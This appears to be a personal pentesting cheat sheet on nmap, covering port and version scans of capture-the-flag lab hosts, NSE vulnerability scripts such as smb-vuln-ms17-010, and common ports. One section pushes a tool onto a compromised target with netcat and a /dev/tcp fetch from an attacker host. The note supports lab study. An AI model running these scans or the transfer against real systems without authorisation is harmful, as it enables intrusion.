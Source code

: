 # 💢 nmap

Tags: #💢
Related to: 
See also: [[nping]], [[ndiff]], [[ncat]]
Previous: [[Information Gathering]], [[Getting Started]]

## Description
Nmap (“Network Mapper”) is a free and open source (license) utility for network discovery and security auditing. Many systems and network administrators also find it useful for tasks such as network inventory, managing service upgrade schedules, and monitoring host or service uptime. Nmap uses raw IP packets in novel ways to determine what hosts are available on the network, what services (application name and version) those hosts are offering, what operating systems (and OS versions) they are running, what type of packet filters/firewalls are in use, and dozens of other characteristics. It was designed to rapidly scan large networks, but works fine against single hosts. Nmap runs on all major computer operating systems, and official binary packages are available for Linux, Windows, and Mac OS X. In addition to the classic command-line Nmap executable, the Nmap suite includes an advanced GUI and results viewer (Zenmap), a flexible data transfer, redirection, and debugging tool (Ncat), a utility for comparing scan results (Ndiff), and a packet generation and response analysis tool (Nping).

Nmap was named “Security Product of the Year” by Linux Journal, Info World, LinuxQuestions.Org, and Codetalker Digest. It was even featured in twelve movies, including The Matrix Reloaded, Die Hard 4, Girl With the Dragon Tattoo, and The Bourne Ultimatum.

## Usage Examples

### Fine order to scan new host

	nmap -sC -sV -oA nmap/reddish 10.10.10.94								    // default script & version scan on top 1000 ports
	nmap -p0- -T5 --max-retries 0 -v -oA nmap/reddish-all-ports 10.10.10.94	// all ports quickly; no retries
	nmap -p0- -T5 --max-retries 0 -v -oA nmap/reddish-all-ports 10.10.10.94	// retry on missed ports due to speed/retries
	nmap -p 1880 -sC -sV -oA nmap/reddish-targeted 10.10.10.94				// targeted scan

### Get static binary onto target machine [^1]

	nc -lvnp 80 < nmap						// kali
	cat < /dev/tcp/10.10.16.12/80 > nmap	// target
	chmod +x nmap

### OS / version detection, traceroute, and script scanning
	nmap -A -p0- --min-rate=1000 -Pn 10.10.110.100

### Fastest timing, no retransmission

	nmap -sC -sV -oA nmap/allports-reddish -Pn -p0- -T5 --max-retries 0 -v 10.129.172.204

```
Rarely use this as if it misses the port, it comes back empty.
```

### Ping sweep

	nmap -sn -T4 10.10.110.0/24 -oN active-hosts

### Scan using a specified script

	nmap --script smb-os-discovery.nse -p445 10.10.10.40

### Provide argument to script

	sudo nmap -sN -n --script /usr/share/nmap/scripts/dns-zone-transfer.nse --script-args domain=lightspeedhosting.com,server=NS1.LIGHTSPEEDHOSTING.COM

### Get a comma-separated list of port numbers.
    ports=$(nmap -p0- --min-rate=1000 -T4 10.129.78.66 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)

### Do a default script and version check on those ports, displaying only open (or possibly open) ports.  
	nmap -sC -sV -p$ports 10.129.78.66 --open

### Set round trip time to receive a response from a slow service

	netcat <port>
	nmap <port> --min-rtt-timeout

### Scan top 1,000 TCP Ports

	nmap -sT --top-ports 1000 -v -oG -

### Scan top 1,000 UDP Ports:

	nmap -sU --top-ports 1000 -v -oG -

### Grab banners

	nmap -sV --script=banner scanme.nmap.org

### Sort ports by order of use frequency

	sort -r -k3 /usr/share/nmap/nmap-services

### NSE

#### Search for Microsoft Security Bulletin
	locate ms17-010 | grep.nse$

#### Examine script
	nmap --script-help=smb-vuln-ms17-010.nse
	less /usr/share/nmap/scripts/smb-vuln-ms17-010.nse
	
#### See which NSE category a script is in
	/categories <Enter>	// categories = {"vuln", "safe"}

#### Ways to run a script
	nmap -p 445 --script safe  
	nmap -p 445 --script smb-vuln-ms17-010  
	nmap -p 445 --script smb-vuln-ms17-010.nse

#### Run safe scripts
	nmap -p 445 --script safe -Pn -n -oA blue-safe-scripts 10.129.2.85

#### See all categories scripts can be in
    grep -r categories /usr/share/nmap/scripts/*.nse

#### Print NSE categories
    grep -r categories /usr/share/nmap/scripts/*.nse | grep -oP \".*?\" | sort -u

#### Run scripts whose categories are both vulnerable and safe.
	nmap -p 445 --script "vuln and safe" -Pn -n -oA blue-vuln-and-safe-scripts 10.129.2.85

### Common ports

**Top 20**
80, 23, 443, 21, 22, 25, 3389, 110, 445, 139, 143, 53, 3306, 8080, 1723, 111, 995, 993, 5900

**Windows**  
135, 137-139, 445, 3389  
  
**Linux**  
22, 11  
  
Important Services | Ports
-------------------|------
MSSQL|				1433, 1434
Oracle|				1521, 1630
DB2|				50000, 50001
SAP|				3200, 3300
Prostgres|			5432
MariaDB, MySQL|		3306  
Informix|			9088, 9089  
ICS Protocols|		502 (Modbus), 20000 (DNP3), 44818 (Ethernet/IP)

### Additional TCP scans

#### ACK Scan (-sA)

	- Scan through an "established" filter on a router.  
	- Doesn't reliably tell us if a port is open or closed,  
	- but is useful for identifying hosts (network mapping).  
  
####  FIN Scan (-sF)

	- Set FIN bit of all scan packets.
  
#### Null Scan (-sN)

	- Set all control bits to 0.
  
#### Xmas Tree Scan (-sX)

	- Set FIN, PSH, URG, "lighting up the packet like a Christmas tree".
  
#### Maimon Scan (-sM)

	- Set FIN and ACK bits. Useful on some BSD-derived systems.


### IPv6
	nmap -Pn -sV -6 fe80::20c0 -e eth0 --packet-trace

	ping6 -I eth0 ff02::1	Multicast address for all link-local IPv6 nodes.
	ping6 -I eth0 ff02::2	Multicast address for all link-local IPv6 routers.


### Runtime interaction
	p		Turn on packet tracing.  
	v		Increase verbosity.  
	d		Increase debugging level.  
	Shift	Function inverted when pressing p, v, or d.

---

## References

[^1]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap